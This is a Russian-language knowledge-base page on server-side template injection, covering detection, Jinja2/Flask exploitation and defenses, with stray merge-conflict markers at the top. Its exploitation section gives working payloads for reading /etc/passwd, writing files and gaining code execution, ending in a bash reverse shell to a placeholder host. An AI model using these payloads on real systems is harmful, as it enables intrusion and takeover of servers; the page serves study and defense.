 # уязвимость/атака
=======
## уязвимость/атака
>>>>>>> e467073fe1e4c9039c77fd480728050284b6ae8c

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация

Client-side / Server-side Template Injection

## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные

## Детектирование

Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
{{ 7*7 }}
{{ 7 * ‘7’ }}
и т.д. 
Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.

Информация:

https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/


## Эксплуатация

Дамп всех используемых классов (Dump all used classes)

{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}

Дамп всех переменных конфигурации (Dump all config variables)

{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}

Чтение из удаленных файлов (Reading remote files)

# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}


Запись в удаленные файлы (Writing into remote files)

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}


Удаленное выполнение кода (RCE)

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host





### Инструменты

Tplmap - это инструмент от @epinna, который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. Github

search.py скрипт от DoubleSigma. Link.

## Ущерб

Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.

## Защита
### Основные меры

Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 

 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;   ( &apos;  не рекомендуется)
 / --> &#x2F; 

Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.

Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.

### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 

Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы

## Обход защиты

Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.
